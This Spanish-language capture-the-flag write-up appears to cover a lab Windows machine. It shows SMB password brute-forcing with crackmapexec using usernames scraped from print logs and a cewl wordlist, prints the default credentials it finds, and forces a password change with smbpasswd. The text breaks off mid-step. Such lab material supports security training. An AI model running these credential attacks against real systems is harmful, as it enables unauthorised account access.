 ```bash
whatweb http://10.10.10.193
```

Vemos una vez mas que estamos en frente de una IIS pero nada mas. Seguimos checkeando la web.


#### Checkear la web {-}

Sabemos que es un IIS 10.0 con asp.net. Hay una redireccion automatica a fuzse.fabricorp.local y vemos que estamos en frente
de un servicio de impressora. Miramos los logs print y vemos una columna interesante que es la de **Users**.

Nos creamos un fichero users y copiamos los usuarios de la web.

Ya que tenemos un fichero con contraseñas, intentamos fuerza bruta con **crackmapexec**.


## Vulnerability Assessment {-}

### Crackeo con diccionario {-}

Como tenemos una lista de usuarios potenciales, intentamos combinar los usuarios poniendo como contraseña los mismos usuarios.
Esto se hace con crackmapexec de la siguiente forma.

```bash
crackmapexec smb 10.10.10.193 -u users -p users
```

Esto no nos da nada. Intentamos crear un diccionario con la palabras encontrada en la web con **CEWL**

### Creando un diccionario desde una pagina web con CEWL {-}

```bash
cewl -w passwords http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers
```

Intentamos otravez el crackeo con **crackmapexec**

```bash
crackmapexec smb 10.10.10.193 -u users -p passwords --continue-on-success | grep -v -i "failure"
```

Aqui vemos algo interesante:

````bash
fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

Aqui **crackmapexec** nos dice que a encontrado contraseñas pero son contraseñas por defectos que se tienen que modificar.
Las vamos a cambiar con la utilidad **smbpasswd**

### Cambiando contraseñas con smbpasswd {-}

```bash
smbpasswd -r 10.10.10.193 -U "bhult"
> Old SMB password: Fabricorp01
> New SMB password: S4vitar123$!
> Retype new SMB password: S4vitar123$!

Password changed for user bhult on 10.10.10.193
```

Lo miramos con crackmapexec

````